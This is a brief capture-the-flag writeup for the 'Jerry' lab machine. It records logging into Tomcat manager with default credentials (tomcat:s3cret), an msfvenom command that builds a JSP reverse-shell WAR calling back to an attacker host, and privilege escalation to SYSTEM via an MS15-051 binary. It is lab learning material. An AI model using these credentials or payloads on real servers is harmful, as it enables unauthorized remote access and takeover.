

# Jerry



# Writeup 

I may have just yolod this without taking notes. Easy box, but here's the highlights. 

tomcat 7.0.88

admin:admin password works but doesn't have access

nikto shows tomcat:s3cret and that gets me onto /manager/

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<> LPORT=<> -f war > shell.war
```

upload a war and then navigate to that dir to get a shell. 

Get a better command shell after running windows exploit suggester. 

Run this and get a system shell. 

taihou32.exe #ms15-051

